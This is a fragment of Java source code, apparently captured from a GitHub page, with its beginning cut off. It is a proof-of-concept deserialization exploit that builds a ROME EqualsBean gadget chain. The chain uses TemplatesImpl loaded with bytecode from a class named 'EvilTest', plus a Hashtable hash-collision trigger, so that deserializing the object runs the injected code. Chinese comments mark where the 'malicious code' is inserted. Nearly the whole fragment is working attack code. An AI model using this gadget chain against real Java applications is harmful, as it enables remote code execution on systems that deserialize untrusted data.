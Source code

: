 ```java
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        Object o = objIn.readObject();
        return o;
    }

    public static void setFieldValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);

    }
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        // 防止构造触发
        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", templates);
        map2.put("yy", templates);
        map2.put("zZ", bean);

        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");

        // 反射插入恶意代码
        setFieldValue(bean, "_beanClass", Templates.class);
        setFieldValue(bean, "_obj", templates);

        byte[] obj = serialize(table);
        deserialize(obj);

    }
}

```
